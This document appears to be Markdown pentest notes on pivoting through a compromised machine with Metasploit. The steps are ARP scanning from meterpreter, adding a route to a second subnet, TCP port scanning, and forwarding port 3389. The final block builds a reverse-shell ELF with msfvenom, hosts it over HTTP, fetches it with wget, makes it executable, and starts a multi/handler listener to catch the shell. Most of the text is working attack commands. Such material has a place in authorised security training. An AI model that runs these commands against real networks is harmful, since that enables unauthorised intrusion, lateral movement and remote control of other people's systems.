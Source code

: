 ```
meterpreter > run arp_scanner -r 192.168.1.0/24
```

This command will output all the devices on the netowork.

#### Scan each host <a href="#scan-each-host" id="scan-each-host"></a>

Now that we have a list of all available machines. We want to portscan them.

We will to that portscan through metasploit. Using this module:

```
use auxiliary/scanner/portscan/tcp
```

If we run that module now it will only scan machines in the network we are already on. So first we need to connect us into the second network.

On the already pwn machine we do

```
ipconfig
```

Now we add the second network as a new route in metasploit. First we background our session, and then do this:

```
# the ip addres and the subnet mask, and then the meterpreter session
route add 192.168.1.101 255.255.255.0 1
```

Now we can run our portscanning module:

```
use auxiliary/scanner/portscan/tcp
```

#### Attack a specific port <a href="#attack-a-specific-port" id="attack-a-specific-port"></a>

In order to attack a specific port we need to forwards it like this

```
portfwd add -l 3389 -p 3389 -r 192.168.1.222
```

```bash
# Reverse Shell generation
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.2.149 LPORT=8080 -f elf --platform linux --arch x64 > reverse.elf
$ python -m http.server --bind 192.168.2.149
$ wget http://192.168.2.149:8000/reverse.elf
$ chmod u+x reverse.elf

# Setup listener
$ msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run
```
